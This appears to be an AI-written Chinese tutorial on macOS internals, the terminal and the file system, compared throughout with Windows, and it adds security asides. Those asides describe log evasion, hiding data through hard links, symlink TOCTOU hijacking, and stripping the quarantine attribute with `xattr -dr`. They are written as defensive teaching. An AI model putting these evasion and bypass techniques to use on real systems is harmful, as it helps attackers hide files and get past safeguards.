






# 操作系统底层与终端精通课程

> **定位**：以终端命令为线索，从操作系统底层讲起，目标是「把电脑用到极致」
> **风格**：每一卷都对照 Windows 讲，配图示，先讲「为什么」再讲「怎么用」
> **安全主线**：你的终极目标 = 安全 + 兴趣玩透电脑。从第二卷起，我会把安全视角（权限、隐写、链接劫持、日志逃避、系统加固）缝进讲解，让你学的每样东西都能直接对接安全。
>
> **进度**：已讲 第〇卷（硬件地基+认知框架）+ 第一卷（内核与进程）+ 第二卷（文件系统·安全视角）+ 第三卷（Shell 与终端·安全视角）+ 第四卷（环境变量与进程环境·安全视角）；本次新增 0.0 硬件地基（Apple Silicon 结构 + 终端观测实操 + Secure Enclave 安全根）
> **本机环境快照**（你自己机器，实测）：Apple M5 Pro · macOS 26.3 (Tahoe) · Darwin 内核(XNU) · arm64 · 默认 shell zsh · 包管理 nvm(默认 v26.5.0) · Homebrew 已装 · GUI 启动器 launchd 是 PID 1
> **软件安装状态**：Homebrew / htop / DaisyDisk 等需 sudo 或 App Store，沙箱内我无法替你装，文中命令你照抄到终端跑即可
> **Windows 用户看 0.5 节**：WSL2 是你对照练习「真 Unix」的桥

---

# 第〇卷：底层地基与认知框架——从芯片到系统为什么不一样

## 0.0 硬件地基：你的 M5 Pro 由什么构成（以及终端怎么看它）

前面说课程「从底到顶」，但那个「底」如果只到内核，还差最后一层——**硅**。你每天敲的每一条命令，最终都变成电流在这块指甲盖大的芯片上跑。这一节把芯片讲清楚，后面所有卷（内核、文件系统、Shell）都能「落」到这块硬件上，形成闭环。

### 0.0.1 你的机器实测画像（终端亲手看）

别光听，先跑命令看你自己的硬件。你机器实测：

```bash
$ uname -m
arm64                         # 架构：ARM64（不是老 Intel 的 x86_64）

$ sysctl -n machdep.cpu.brand_string
Apple M5 Pro                  # 芯片型号

$ sysctl hw.physicalcpu hw.logicalcpu hw.perflevel0.physicalcpu hw.perflevel1.physicalcpu
hw.physicalcpu: 15            # 15 个物理核
hw.logicalcpu: 15
hw.perflevel0.physicalcpu: 5  # perflevel0 = 性能核（Performance）5 个
hw.perflevel1.physicalcpu: 10 # perflevel1 = 能效核（Efficiency）10 个

$ sysctl -n hw.memsize | awk '{printf "%.1f GB\n", $1/1073741824}'
24.0 GB                       # 统一内存大小

$ sysctl -n sysctl.proc_translated
0                             # 0 = 原生 arm64 运行，没走 Rosetta 翻译
```

`system_profiler SPHardwareDataType` 还会给你完整画像：机型 MacBook Pro / Mac17,9 / 24GB / **Activation Lock: Enabled** 等。

> **和前面案例的呼应**：你之前踩的 claude 原生二进制坑，那个 `darwin-arm64` 里的 `arm64` 就是这里的 `uname -m` 输出。`sysctl.proc_translated: 0` 说明你现在跑的 claude/codex 都是**原生 ARM64**，没有借 Rosetta 翻译——这正是 Apple Silicon 比老 Intel Mac 快且省电的原因之一。

### 0.0.2 Apple Silicon 长什么样（一块芯片装下整台电脑）

传统 Windows PC 是「拼起来的」：CPU 插主板、内存条单独插、显卡（GPU）另有显存、硬盘走数据线。Apple Silicon 是 **SoC（System on a Chip）**——把 CPU、GPU、神经引擎、媒体引擎、内存、安全区**全焊进一颗芯片**。

（结构剖面图见下方）

关键差异是**统一内存（UMA，Unified Memory）**：CPU 和 GPU **共用同一块内存**，不用互相拷贝数据。好处是快、省电；代价是「内存压力」是全局的——你第一卷会学的 `vm_stat` 看的就是这块**统一内存**，而不是某块独立的显卡显存。

> **Windows 对照**：WSL2 里你看到的是「逻辑上分开」的内存模型（Linux 以为自己独占内存）；但物理上若跑在 Intel/AMD 机器，内存确实和 CPU/GPU 分开。只有 Apple Silicon 是真 UMA——这也是为什么 Mac 做视频剪辑 / AI 推理时「显存不够」的焦虑少很多。

### 0.0.3 为什么这层对「安全」最重要（Secure Enclave + 启动链）

你第二卷学了「系统盘密封只读 / SIP / APFS 加密」，当时只说了现象。它的**硬件根**就在这层：

- **Secure Enclave**：一颗独立于主 CPU 的安全协处理器，有自己的微内核。它专门管加密密钥、密码 / Touch ID、启动验证。**哪怕主系统被攻破，密钥也还在保险柜里**——这是 Mac 安全的最后一道物理防线。
- **启动链逐级验证**：开机时硬件从只读的 Boot ROM 起，逐级验证下一级的数字签名（iBoot → 内核 → 系统卷），任何一级被篡改就**拒绝启动**。这正是第二卷「`/` 只读且 sealed」能成立的根本原因。
- **激活锁（Activation Lock）**：你机器 `system_profiler` 显示 `Enabled`。丢了之后没有你的 Apple ID 就是块砖——也是硬件绑定的安全特性。
- **ARM64 的硬件安全**：相比老 Intel Mac，Apple Silicon 有指针鉴权（PAC）、页表加密等硬件强制保护，让很多传统内存攻击直接失效。你「玩安全」时要知道这条边界在哪。

> **安全视角**：很多「越狱 / 提权 / 固件攻击」研究的就是绕过这一层。理解 Secure Enclave 和启动验证，你才知道为什么 Mac 比「能随便改 bootloader 的 PC」难攻——也才知道哪些攻击面真实存在（供应链、固件、DMA 等），而不是神话它「绝对安全」。

### 0.0.4 终端怎么「玩透」硬件（边讲边练，系统自带零安装）

这一节全是**你立刻能跑、不用 brew 装**的实操——正好践行「从终端玩透电脑」：

| 命令 | 看什么（你机器） |
|---|---|
| `uname -m` | 架构 `arm64` |
| `sysctl -n machdep.cpu.brand_string` | 芯片 `Apple M5 Pro` |
| `system_profiler SPHardwareDataType` | 完整硬件画像 |
| `sysctl -n hw.memsize` | 内存 `24 GB` |
| `vm_stat` | 内存压力（看的是统一内存，第一卷细讲） |
| `sudo powermetrics` | 实时功耗 / 温度 / 各核负载（需密码，沙箱我跑不了，你跑） |
| `iostat 1` | 磁盘 IO 实时 |
| `top` / `htop` | 看性能核 / 能效核的负载分布 |

`powermetrics` 那条特别硬核：它能告诉你此刻哪个 App 在烧电、芯片温度多少——是你「玩透这台 Mac」最真实的仪表盘。

### 0.0.5 和后面各卷的呼应（闭环）

| 本卷讲的硬件 | 回扣后面的卷 |
|---|---|
| Secure Enclave + 启动验证 | 第二卷的系统盘只读 / SIP / APFS 加密 |
| 统一内存 UMA | 第一卷的 `vm_stat` 内存监控 |
| ARM64 架构 | 你踩过的 claude `darwin-arm64` 原生二进制坑 |
| 性能核 / 能效核 | 第一卷进程调度、第三卷 `top`/`htop` 看负载 |

至此，课程真正「从底到顶」：芯片 → 内核 → 文件系统 → Shell → 应用。每一层都落到了下一层的物理基础上。

## 0.0 安全视角小结

| 知识点 | 安全含义 |
|---|---|
| Apple Silicon SoC | 整台电脑焊进一颗芯片，攻击面更收敛 |
| 统一内存 UMA | 内存压力全局共享；`vm_stat` 看的是同一块 |
| Secure Enclave | 独立安全协处理器，密钥的最后防线 |
| 启动链验证 | 系统盘只读 / SIP 的硬件根；篡改即拒启动 |
| 激活锁 | 硬件绑定的防盗；丢失即变砖 |
| ARM64 硬件安全（PAC 等） | 传统内存攻击失效；明确攻击边界 |

---

## 0.1 一句话总纲

- **Windows**：图形界面优先，命令行是「附属品」。你装个软件双击 `.exe` 就行，环境变量在「系统属性」里点一点。
- **macOS**：Unix 血脉，命令行优先，图形界面是「套在上面的壳」。你装 Claude Code 要在终端里折腾 `.zshrc`——这不是麻烦，是**系统的心脏就长这样**。

记住这个总纲，你前面遇到的所有坑（`.zshrc` 写坏、`claude` 坏掉、WeSight 检测不到）就都能归到一个根上：**Mac 的命令可用性由文本配置文件 + 进程环境决定，而 Windows 由图形化的全局设置决定。**

## 0.2 血统图谱



## 0.3 你踩的三个坑，本质都是「血统差异」的投影

| 你遇到的现象 | 表面原因 | 深层根因（血统差异） |
|---|---|---|
| 新终端 `npm`/`claude` 全 not found | `.zshrc` 被写坏 | Mac 靠文本文件在每个终端启动时组装 PATH，文件坏了环境就崩 |
| `claude` 报 native binary not installed | npm 拦截了 postinstall | Unix 工具分发靠「脚本装原生二进制」，安全策略拦了脚本 |
| WeSight 检测不到 CLI | GUI 不读 `.zshrc` | Mac 的 GUI 进程和终端进程是**平行世界**，环境互不继承 |

## 0.4 分层模型（后面每卷都是放大某一层）

```mermaid
graph TD
    H[硬件: CPU/内存/磁盘/网卡]
    K[内核: XNU (Mac) / NT (Win)<br/>管进程、内存、设备、文件系统]
    S[Shell 与 GUI: zsh / Finder<br/>人与内核之间的界面]
    A[应用程序: 浏览器/编辑器/CLI 工具]
    H --> K --> S --> A
    style K fill:#e6f1fb,stroke:#185FA5
    style S fill:#eaf3de,stroke:#3B6D11
```

> **Windows 用户特别提示**：上面每一层你都能在 Windows 找到对应——内核=NT、Shell=CMD/PowerShell、GUI=资源管理器。差异不在「有没有这一层」，而在「层与层怎么通气」。第二卷起你会看到具体差异。

## 0.5 WSL2：Windows 上获得一个「真 Unix 环境」（Windows 用户练习场）

### 0.5.1 它是什么
WSL2 不是「翻译」Linux 命令，而是用一个**轻量虚拟机跑了一个真 Linux 内核**。所以本课程的 `PATH`、`ln`、`kill`、进程树在你 WSL2 里 **100% 适用**，和 Mac 体验几乎一致。

### 0.5.2 与 macOS 的异同（核心结论）
Unix 接口（POSIX）两边几乎一样，**真正差异只有三处系统级**：

| 维度 | macOS (Darwin) | WSL2 (Linux) |
|---|---|---|
| init（PID 1） | `launchd` | `systemd` |
| 文件系统 | APFS | ext4 |
| 包管理 | Homebrew | `apt` |

其余 `ls`/`grep`/`ps`/`kill`/`ln` 等命令行为一致——这正是你对照练的最佳场地。

### 0.5.3 安装教程（边讲边装）
```powershell
# 在 Windows 的 PowerShell(管理员) 里执行
wsl --install
```
装完打开「终端」输入 `wsl` 进入。验证：
```bash
uname -a          # 显示 Linux ... 说明是真内核
ps -p 1 -o comm=  # 显示 systemd（对比你 Mac 上是 launchd）
ls /mnt/c         # 看到你的 Windows C 盘
```

### 0.5.4 配合本课程用法
WSL2 当「练习场」，凡涉及系统级差异（init、文件系统、包管理）我会专门标注 **WSL2/Linux 对照**。

---

# 第一卷：内核与进程模型（最底层）

## 1.1 内核是什么：NT vs XNU

- **Windows NT**：微软从零写的混合内核，图形子系统、文件子系统都内置其中。
- **macOS XNU**：两层缝合——
  - **Mach**（微内核）：管线程、虚拟内存、进程间通信(IPC)
  - **BSD 层**：给你熟悉的 Unix 行为（进程、文件权限、信号、POSIX 接口）



你机器实测：`uname -a` 显示 `Darwin ... arm64`，`sysctl -n machdep.cpu.brand_string` 显示 `Apple M5 Pro`——确认是 XNU 跑在 Apple Silicon 上。

## 1.2 进程是什么

进程 = 正在运行的程序实例。Windows 里你在「任务管理器」看进程；Mac 终端里用 `ps` / `top` / `htop` 看。**Unix 的信条：一切皆进程**——连图形界面、后台服务都是进程。

## 1.3 进程树与父子关系

实测你机器：
```bash
$ ps -o pid,ppid,comm -p 1
   PID   PPID COMM
     1      0 /sbin/launchd     # ← PID 1，所有进程的祖先（Mac 上是 launchd）
```
> **Windows 用户对照**：WSL2 里 PID 1 是 `systemd`；原生 Windows 里没有单一 PID 1，系统服务由 `services.exe` 管。这就是为什么 Mac 关机能「干净地逐个通知进程退出」，而 Windows 要靠强行终止。

## 1.4 信号机制（Unix 独有）：`kill` 不是「杀死」

`kill` 本质是「发信号」。进程收到信号后自己决定怎么办：
- `kill <pid>`（SIGTERM，15）：温柔通知「该退出了」，进程可先存盘再退
- `kill -9 <pid>`（SIGKILL，9）：**内核强制立刻消灭**，进程来不及存盘——这是最后手段



> **安全视角（预告）**：信号机制也是攻击面之一。恶意程序可以捕获 SIGTERM 忽略它（你 `kill` 不掉它），或用 `nohup`/`setsid` 脱离终端独立存活。后面讲进程安全时会展开。

## 1.5 launchd vs Windows 服务管理器

| | macOS `launchd` | Windows `services.exe` |
|---|---|---|
| 角色 | PID 1，系统启动总管 | 服务控制管理器(SCM) |
| 配置 | `~/Library/LaunchAgents/*.plist` | 注册表 `Services` 键 |
| 开机自启 | 往 `LaunchAgents` 丢 plist | `sc create` 或安装器注册 |

**为什么这重要**：你前面遇到的 WeSight 坑，根子就在 launchd——GUI 应用的环境变量是 launchd 在启动时设好的，**不是**你的 `.zshrc` 设的。第四卷专门拆。

## 边讲边装：Homebrew + htop（第一卷实操）

> Homebrew 是 Mac 的包管理器（对应 Linux 的 `apt`、Windows 的 `winget`）。htop 是彩色实时进程监控（对应 Windows 任务管理器）。

```bash
# 1) 装 Homebrew（一条命令，需输入密码）
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"

# 2) 装 htop
brew install htop

# 3) 跑起来，验证本卷知识
htop
```
- 在 htop 里按 `F5` 看进程树，确认最顶上是 `launchd`（PID 1）
- 选中某个进程按 `F9` 发信号，亲眼看 1.4 讲的「发信号」

⚠️ 这两条命令要 **sudo 密码**，沙箱里我没法替你跑，你在终端执行后打开 htop 确认能看到 launchd 即过关。

---

# 第二卷：文件系统——没有 C 盘的电脑（★ 安全视角）

> 本卷目标：搞懂 Mac 的「文件世界」长什么样，并用安全眼光看它——**攻击者怎么藏文件、怎么删痕迹、怎么用链接做手脚**，你又怎么用文件系统命令自查。

## 2.1 硬盘格式化层：NTFS vs APFS

| 维度 | Windows NTFS | macOS APFS |
|---|---|---|
| 日志 | 有（意外断电可恢复） | 有（更强，写时复制 COW） |
| 快照 | 卷影副本(VSS) | 原生快照，Time Machine 靠它 |
| 大小写敏感 | 默认不敏感（`A.txt`=`a.txt`） | 默认**不敏感**但可建敏感卷 |
| 加密 | BitLocker | FileVault 2 |
| 完整性 | — | **Sealed System Volume**（签名密封） |

**你机器的实测，直接印证安全设计**：
```bash
$ mount | head -1
/dev/disk3s1s1 on / (apfs, sealed, local, read-only, journaled)
```
注意 `sealed` 和 `read-only`：你的系统盘 `/` 是**签名密封且只读**的。任何程序（包括 root）都改不了系统文件——这就是 **SIP（系统完整性保护）** 在文件系统层的体现。想动系统目录？门都没有，除非关掉 SIP（强烈不建议）。

> **安全视角**：APFS 的 sealed + read-only 是 Mac 比 Windows 更难被「病毒篡改系统」的根本原因之一。你做系统加固时，第一件事就是**别关 SIP**。

## 2.2 路径哲学：盘符 vs 挂载点（无 C 盘）

Windows：`C:\Users\ioao\file.txt`——每个盘一个字母，反斜杠分隔。
Mac：`/Users/ioao/file.txt`——**一切从 `/` 开始**，没有盘符，外接硬盘/网络盘都「挂」到某个目录树下。

你机器根目录实测：
```bash
$ ls -la /
total 10
drwxr-xr-x  22 root  wheel   704 Feb  5 13:00 .
drwxr-xr-x@ 10 root  wheel   320 Feb  5 13:00 Applications
drwxr-xr-x  66 root  wheel  2112 Jul 28 22:24 Library
drwxr-xr-x@  3 root  wheel    96 Feb  3 10:00 System
drwxr-xr-x   5 root  admin   160 Jul 28 10:49 Users
drwxr-xr-x   3 root  wheel    96 Aug  3 10:00 Volumes     # ← 外接盘挂这里
lrwxr-xr-x   1 root  wheel    11 Feb  5 13:00 etc -> private/etc
lrwxr-xr-x@  1 root  wheel    11 Feb  5 13:00 tmp -> private/tmp
lrwxr-xr-x@  1 root  wheel    11 Feb  5 13:00 var -> private/var
```
注意 `etc`、`tmp`、`var` 全是**软链接**（下一节讲），指向 `private/` 下的真实位置。这是 Unix「用链接组织目录」的典型手法。

> **Windows 用户对照**：`/Volumes/MyUSB` ≈ Windows 的 `E:\`。`/Users/ioao` ≈ `C:\Users\ioao`。没有盘符，所有东西都在一棵 `/` 树下，好处是路径统一、脚本可移植。

## 2.3 「一切皆文件」：设备、管道、socket 都是文件

Unix 哲学：**能用文件描述的东西，就用文件描述**。所以：
- 硬盘 `/dev/disk0` 是文件
- 你的键盘鼠标在 `/dev` 下是文件
- 进程间通信的「管道」「socket」也是特殊文件



你机器：`ls -la /dev` 能看到成百上千个设备文件。最经典的一个是 `/dev/null`——「黑洞文件」，任何写进去的东西都消失（`> /dev/null 2>&1` 就是丢弃所有输出）。

> **安全视角**：`/dev` 是攻击者和防御者都盯的地方。比如 `/dev/null` 常被恶意脚本用来**静默丢弃错误日志**；设备文件权限不当可能泄露硬件信息。你做加固时要留意 `/dev` 下异常的新增项。

## 2.4 inode 与数据分离：文件名只是「标签」

这是 Unix 文件系统最反直觉、也最安全相关的一点：**文件名不是文件本身，只是指向 inode（索引节点）的标签；真正的数据存在 inode 里。**

你机器实测：
```bash
$ stat -f "name=%N | inode=%i | size=%z bytes | perms=%p | links=%l" ~/.zshrc
name=/Users/ioao/.zshrc | inode=866922 | size=185 bytes | perms=100644 | links=1
```
- `inode=866922`：文件的真实身份证
- `links=1`：当前只有 1 个文件名指向它

**关键推论**：删一个文件，只是删掉「一个标签」。只要还有别的标签（硬链接）指向同一个 inode，数据就不消失。这就是「**文件删了进程还在跑**」的怪象根源——进程拿着 inode 句柄，文件名删了不影响它读写。

> **安全视角（重点）**：
> - **日志逃避**：攻击者删掉日志文件 `rm /var/log/evil.log`，但如果系统/别的进程还开着它的句柄，数据其实还在磁盘上，取证时能恢复。真正擦除要覆写 inode 或用 `shred`。
> - **隐写/藏数据**：建一个硬链接指向敏感文件，再删原名——文件「消失」了但数据通过硬链接还在，肉眼难发现。
> - **你之前踩的 `.zshrc` 坑**：我备份成 `.zshrc.bak.*` 就是多一个「标签」指向旧内容，出问题随时还原。

## 2.5 三种链接全解：硬链接 / 软链接 / Windows 快捷方式

你之前用过 `ln -sf` 建软链接（让 WeSight 找到 CLI），现在彻底讲清三种。

**现场演示（我在 /tmp 实测，已清理）：**
```bash
$ ls -li /tmp/fsdemo
1256839 -rw-r--r--@ 2 ioao wheel 12 orig.txt    # 普通文件, inode 1256839
1256839 -rw-r--r--@ 2 ioao wheel 12 hard.txt    # 硬链接, 同 inode 1256839!
1256842 lrwxr-xr-x@ 1 ioao wheel 20 soft.txt -> /tmp/fsdemo/orig.txt  # 软链接

$ stat -f "orig inode=%i" orig.txt   # 1256839
$ stat -f "hard inode=%i" hard.txt   # 1256839  ← 和 orig 完全相同
$ stat -f "soft inode=%i" soft.txt   # 1256842  ← 自己独立 inode

# 删掉 orig.txt 后：
$ cat hard.txt      # 仍输出 secret-data（数据在，因 hard 还指向同一 inode）
$ cat soft.txt      # 报错 No such file（软链指向的路径没了 → 断裂）
```

| 类型 | 命令 | 本质 | Windows 对应 | 删原文件后 |
|---|---|---|---|---|
| **硬链接** | `ln 源 链` | 同一个 inode 多一个名字 | 无直接对应（近似 `mklink /H`） | **数据仍在**（其他名还能用） |
| **软链接(符号链接)** | `ln -s 源 链` | 一个「指向路径」的小文件 | 快捷方式 `.lnk`（但更底层） | **断裂**（指向的路径没了） |
| **快捷方式** | 右键创建 | 普通 `.lnk` 文件，存目标路径 | 原生 `.lnk` | 断裂 |

> **安全视角（链接是经典攻击面）**：
> - **软链劫持 / TOCTOU**：程序先检查 `/tmp/conf`（以为安全），攻击者趁机把它换成指向 `/etc/shadow` 的软链，程序随后以自己权限写入——检查和使用之间被「调包」。防御：用 `O_NOFOLLOW`、检查 `lstat` 而非 `stat`。
> - **越权读取**：把 `/etc/shadow` 软链到你有权限读的地方再读。
> - **你建软链的正当用法**：`sudo ln -sf ~/.nvm/.../bin/{node,npm,claude,codex} /usr/local/bin/`——把 nvm 里的命令「借」到 GUI 能看到的 PATH 目录，正是软链接的合法妙用。

## 2.6 隐藏文件与 `.` 开头：ls 看不到的世界

Unix 里**以 `.` 开头的文件/目录默认隐藏**，`ls` 不显示，必须 `ls -a`。

你机器家目录实测（节选）：
```bash
$ ls -la ~ | head -15
drwxr-x---+ 48 ioao  staff  1536 Aug  3 12:35 .
-r--------   1 ioao  staff     9 Jul 28 10:49 .CFUserTextEncoding
drwx------+  3 ioao  staff    96 Aug  3 12:34 .Trash
drwxr-xr-x  24 ioao  staff   768 Aug  2 08:40 .claude
-rw-r--r--@  1 ioao  staff  3275 Jul 30 19:01 .claude.json
-rw-r--r--@  1 ioao  staff   185 Jul 28 23:04 .zshrc     # ← 你之前写坏的那个!
```
注意 `.zshrc` 就在这一堆点开头文件里。还有几个安全相关的细节：
- 权限 `drwx------`：只有本人能进，别人（含同机其他用户）进不去——这是家目录隐私的基础。
- `@` 标记（如 `.DS_Store@`）：文件有**扩展属性(xattr)**。macOS 给从网上下载的文件打 `com.apple.quarantine` 标记（隔离属性），首次打开会弹「未知开发者」警告。攻击者会试图用 `xattr -d` 去掉这个标记来规避。

> **安全视角（重点）**：
> - **恶意软件最爱藏 `.` 开头目录**：`.cache`、`.agents`、`.cc-switch` 这类你机器上正常的隐藏目录，正是木马常混进去的地方。定期 `ls -la ~` 看看有没有不认识的「点文件」。
> - 你机器上就有 `.agents`、`bytertc`、`.cc-switch` 等隐藏目录——**不一定有问题**，但你应该知道它们存在、谁创建的。排查时 `ls -la ~` 是第一步。
> - 清隔离属性要小心：`xattr -dr com.apple.quarantine /path` 会绕过系统警告，只对你信任的软件用。

## 2.7 边讲边装：用工具把文件系统「看」出来

理论要配肉眼。推荐两款图形化磁盘可视化工具（第二卷实操），并配终端自查命令。

**A. 装可视化工具（GUI，看占用一目了然）**
```bash
# 需先装 Homebrew（见第一卷），然后：
brew install --cask daisydisk          # 付费但强，看哪大
brew install --cask grandperspective    # 免费，方块图
# 或直接从 App Store 装
```
打开后看你的 `/` 树，能直观看到 `.` 开头的大目录、异常占用——比 `du` 更直觉。

**B. 终端自查三连（安全巡检常用）**
```bash
df -h                     # 看各挂载点剩余（你机器 / 是 926Gi APFS）
du -sh ~/Downloads/*      # 看某目录下各文件大小
du -sh ~/.* 2>/dev/null   # ★ 看隐藏目录占用（攻击者常藏这里）
find ~ -name ".*" -type d # 列出家目录下所有隐藏目录（巡检用）
```
你机器实测 `df -h` 片段：
```bash
Filesystem        Size  Used Avail Capacity Mounted on
/dev/disk3s1s1   926Gi  17Gi  843Gi     2%   /
/dev/disk3s5     926Gi  47Gi  843Gi     6%   /System/Volumes/Data
```
`/System/Volumes/Data` 是你真正能写数据的地方（`/ ` 本身是只读密封的），用户文件都在 `Data` 卷里。

> **安全自检小练习**：跑一次 `du -sh ~/.* 2>/dev/null | sort -h`，看哪个隐藏目录异常大。正常该很小的 `.cache` 突然几个 G，就该警惕了。

## 第二卷安全视角小结

| 知识点 | 安全含义 |
|---|---|
| APFS sealed + read-only `/` | 系统文件防篡改（SIP 在文件层） |
| 一切皆文件（`/dev` 等） | 设备/管道也是文件，攻击者盯 `/dev` |
| inode 与数据分离 | 删文件≠删数据；日志逃避可恢复 |
| 硬链接 | 删原名数据还在，可隐写 |
| 软链接 | 劫持/TOCTOU 攻击面；也是你借 CLI 给 GUI 的妙用 |
| `.` 开头隐藏文件 | 恶意软件藏身处；定期 `ls -a` 巡检 |
| 扩展属性 `@` / quarantine | 下载文件被隔离；`xattr -d` 可绕过（慎用） |

---

# 第三卷：Shell 与终端——你这次出问题的核心层

> 这一卷回到你最初踩坑的地方。前面几卷是「理解系统」，这一卷是「**你每天开机都在用的那一层**」——Shell 配置、启动链、环境变量。它同时是**安全问题最密集的一层**：配置文件被写入恶意命令、PATH 被劫持、别名被钓鱼，都发生在这里。

## 3.1 终端、Shell、TTY：三个常被混为一谈的概念

很多人以为「终端」就是「命令行」，其实它们是**三个不同的东西**。`ls` 这条命令从你键盘到屏幕，要穿过三层：



- **终端（Terminal）**：一个 GUI 窗口程序。它只负责「显示字符」和「把键盘输入转发出去」。你看着它、它啥命令都不懂。
- **TTY**：内核里的一块「虚拟终端设备」（历史上曾是真正的物理终端机，现在都是软件模拟的 pty）。它是字符进出的中转站，负责行缓冲、回显、Ctrl+C 这类信号。
- **Shell**：命令解释器（你的机器是 zsh）。它读 TTY 送来的字符、解析成命令、调用程序、把结果丢回 TTY。

一句话：**终端是壳，TTY 是管道，Shell 是脑子。** 你敲 `ls` 的真实路径是：`键盘 → 终端 → pty → zsh 解析 → 执行 ls → 结果原路返回 → 屏幕`。

**Windows 对照**：Windows 的「终端」= Windows Terminal 这个窗口；「Shell」= CMD 或 PowerShell；它传统上用「控制台(console)」代替 TTY 概念。但你在 **WSL2** 里开的 shell 是有**真 TTY** 的（和 Mac 行为一致），这也是 WSL2 适合练本课程的原因。

> **安全视角**：终端模拟器本身是个程序，它能被注入（恶意主题、恶意 shell 配置、甚至终端漏洞）。所以别装来路不明的「美化主题」。

## 3.2 Shell 家族史：CMD/PowerShell vs bash/zsh

为什么 macOS 用 zsh、Windows 用 PowerShell？这是两条独立的演化线：



- **macOS 为什么是 zsh 而不是 bash**：bash 从 4.0 起改用 GPLv3 协议，苹果不愿在自己的系统里捆绑 GPLv3 软件；zsh 协议更宽松、且几乎兼容 bash 语法，于是 2019 年 macOS 把默认 Shell 从 bash 换成了 zsh。
